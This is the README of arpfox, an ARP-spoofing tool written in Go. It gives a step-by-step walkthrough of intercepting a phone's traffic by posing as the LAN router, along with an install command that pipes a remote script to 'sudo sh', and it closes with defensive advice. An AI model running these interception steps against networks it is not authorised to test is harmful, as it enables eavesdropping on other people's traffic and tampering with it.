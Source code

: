 # arpfox

`arpfox` is an [arpspoof](http://linux.die.net/man/8/arpspoof) clone written in
Go which creates and injects special [ARP
packets](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)
that can be used to poison
[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) cache tables.

A security researcher can run `arpfox` against any machine on the LAN to pose
as any other host, this is an ancient technique known as [ARP
spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) and is commonly used to
eavesdrop communications on a LAN.

The machine that receives traffic can record, censor, alter or selectively drop
network packets that pass through it.

## Download arpfox

You can install arpfox to `/usr/local/bin` with the following command (requires
admin privileges):

```
curl -sL 'https://raw.githubusercontent.com/malfunkt/arpfox/master/install.sh' | sudo sh
```

You can also grab the latest release from our [releases
page](https://github.com/malfunkt/arpfox/releases) and install it manually into
another location.

## Building

In order to build `arpfox` you'll need Go, a C compiler and libpcap's
development files:

```
# Fedora
sudo dnf install -y libpcap-devel

# Debian/Ubuntu
sudo apt-get install -y libpcap-dev

# OSX
brew install libpcap

# FreeBSD
sudo pkg install libpcap
```

After installing libpcap, use `go get` to build and install `arpfox`:

```
go get github.com/malfunkt/arpfox
arpfox -h
```

## Running `arpfox`

```
arpfox -i [interface] -t [target] [host]
```

### Interface (-i)

Interface name, could be `eth0`, `en0`, `wlan0`, etc.

### Target specification (-t)

`arpfox` takes targets in the same format as `nmap`. The following are all
valid target specifications:

* `10.0.0.1`
* `10.0.0.0/24`
* `10.0.0.*`
* `10.0.0.1-10`
* `10.0.0.1, 10.0.0.5-10, 192.168.1.*, 192.168.10.0/24`

### Host

The host parameter defines the host you want to pose as, for instance, if you
use the LAN router's IP address, the target will start sending packets to you
intead of to the legitimate router.

### Root privileges

Depending on your OS, you may require root privileges to run `arpfox`

```
arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
2016/09/05 20:06:12 wlan0: You don't have permission to capture on that device ((cannot open device) /dev/bpf: Permission denied)

sudo arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
...
```

## A practical example

Alice is a security researcher, and she wants to intercept and record all
traffic between her own phone and the LAN router.

Her machine is already on the same LAN as the phone, and she knows the IP
addresses of both the phone and of the router.

```
Phone:  10.0.0.101
Router: 10.0.0.1
```

Alice will attempt to make her laptop pose as the router in order for the phone
to send all its traffic to the laptop.

If she succeeds, the phone will start sending traffic marked for `10.0.0.1` to
Alice's machine, which will just ignore the packets because these packets have
a different destination, in order to instruct the laptop to forward the packets
to the legitimate destination instrad of dropping them, Alice does something
like:

```
# OSX
sudo sysctl net.inet.ip.forwarding=1

# FreeBSD
sudo sysctl -w net.inet.ip.forwarding=1

# Linux
sudo sysctl -w net.ipv4.ip_forward=1
```

Besides forwarding, Alice also wants to see what's going on with unencrypted
traffic, so she instructs `tcpdump` to display packets coming from the phone:

```
tcpdump -i en0 -A -n "src host 10.0.0.101 and (dst port 80 or dst port 443)"
```

At this point Alice hasn't started `arpfox` yet and the phone's ARP table still
looks like this:

```
# 10.0.0.1's legitimate MAC address on the phone.
? (10.0.0.1) at 11:22:33:44:55:66 on wlan0 expires in 857 seconds [ethernet]
```

Now she's ready to use `arpfox`:

```
# arpfox -i [network interface] -t [target] [host]
arpfox -i en0 -t 10.0.0.101 10.0.0.1
```

`-i en0` tells `arpfox` to use the `en0` network interface and `-t 10.0.0.101
10.0.0.1` tells `arpfox` to send unsolicited ARP replies to the phone
(`10.0.0.101`) posing as the router (`10.0.0.1`).

After a few seconds, the phone's ARP table will get altered and the phone will
think Alice's machine is the router:

```
# 10.0.0.1's MAC address was changed on the phone.
? (10.0.0.1) at 11:22:de:ad:be:ef on wlan0 expires in 1193 seconds [ethernet]
```

Finally, she takes the phone and goes to `example.com`, `tcpdump` starts
showing traffic:

```
...
GET / HTTP/1.1
Host: example.org
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1 (KHTML, like Gecko) CriOS/52.0.2743.84 Mobile/13G36 Safari/601.1.46
Accept-Language: en-us
Cache-Control: max-age=0
Connection: keep-alive
...
```

## Why does this happen?

[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) is the
protocol most computer use to translate a [MAC
address](https://en.wikipedia.org/wiki/MAC_address) into an [IP address
](https://en.wikipedia.org/wiki/IP_address). The original proposal is described
in [RFC826](https://tools.ietf.org/html/rfc826).

The part that is flawed is described in the "Packet Reception" section:

> Notice that the <protocol type, sender protocol address, sender
> hardware address> triplet is merged into the table before the
> opcode is looked at.  This is on the assumption that communcation
> is bidirectional; if A has some reason to talk to B, then B will
> probably have some reason to talk to A.  Notice also that if an
> entry already exists for the <protocol type, sender protocol
> address> pair, then the new hardware address supersedes the old
> one.  Related Issues gives some motivation for this.

The opcode they're talking about is what tells if the packet is a request or a
reply, nothing verifies that a reply is associated with a request nor that a
request was made in the first place.

It only takes an unsolicited ARP packet of type reply to make a device change
it's ARP table, this includes adding new addreses and replacing old ones.

## How can I protect against this?

There are [some programs](https://en.wikipedia.org/wiki/ARP_spoofing#Defense)
that can help you against ARP spoofing. Sometimes programs like these may be
inconvenient because we usually roam over different networks all the time and
these programs require usto hack stuff before actually starting being
productive. Keeping an static ARP table is simply not practical enough for most
users.

One thing you can do, though, is assuming things like these could happen and
try to encrypt your communications, specially on untrusted networks where any
node, even the router, can be actively recording traffic without your consent.
While this doesn't prevent attackers from keeping records on your
communications, it does prevent them from knowing the actual contents of it.

You don't have to use a VPN to stay secure, you can build a proxy with SSH and
configure your programs to use it:

```
ssh -D 9999 user@myownserver.org
```

A more advanced example could be found
[here](https://www.digitalocean.com/community/tutorials/how-to-route-web-traffic-securely-without-a-vpn-using-a-socks-tunnel).
